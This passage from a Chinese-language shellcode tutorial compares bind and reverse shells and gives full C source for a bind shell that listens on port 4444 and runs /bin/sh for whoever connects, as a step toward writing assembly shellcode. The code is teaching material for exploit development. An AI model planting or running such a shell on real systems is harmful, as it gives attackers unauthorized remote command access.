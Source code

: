 使用reverse shell时，目标主机会反连至我们的主机。这种情况下，我们的主机上需要运行一个监听端，接受目标系统的反向连接。

[![](https://p0.ssl.qhimg.com/t01e5a51a8973d60605.png)](https://p0.ssl.qhimg.com/t01e5a51a8973d60605.png)

这两种shell各有其优点及缺点，需要根据目标环境来权衡使用。比如，通常情况下目标防火墙会阻拦入站连接，放行出站连接，此时如果你使用的是bind shell，虽然可以bind目标系统的某个端口，但由于防火墙阻拦了入站连接，结果就是你无法成功与之建连。因此，在某些场景中，我们可以优先选择使用reverse shell，如果防火墙配置不当，允许出站连接，那么我们的shell就能正常工作。如果你知道如何编写bind shell，你应该也知道如何编写reverse shell。一旦我们理解具体工作原理，只需要做几处改动，我们就可以将已有的汇编代码改成reverse shell代码。

为了将bind shell改写成汇编语言，我们首先需要熟悉bind shell的工作流程：

1、创建新的TCP socket。

2、将该socket绑定到某个本地端口上。

3、监听连接。

4、接受连接。

5、将STDIN、STDOUT以及STDERR重定向至新创建的客户端socket。

6、启动shell。

这个过程对应的C代码如下所示，后面我们会将该代码转化为相应的汇编代码：

```
#include &lt;stdio.h&gt; 
#include &lt;sys/types.h&gt;  
#include &lt;sys/socket.h&gt; 
#include &lt;netinet/in.h&gt; 

int host_sockid;    // socket file descriptor 
int client_sockid;  // client file descriptor 

struct sockaddr_in hostaddr;            // server aka listen address

int main() 
`{` 
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 

    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order

    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &amp;hostaddr, sizeof(hostaddr)); 

    // Listen for incoming connections 
    listen(host_sockid, 2); 

    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 

    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 

    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid); 

    return 0; 
`}`
```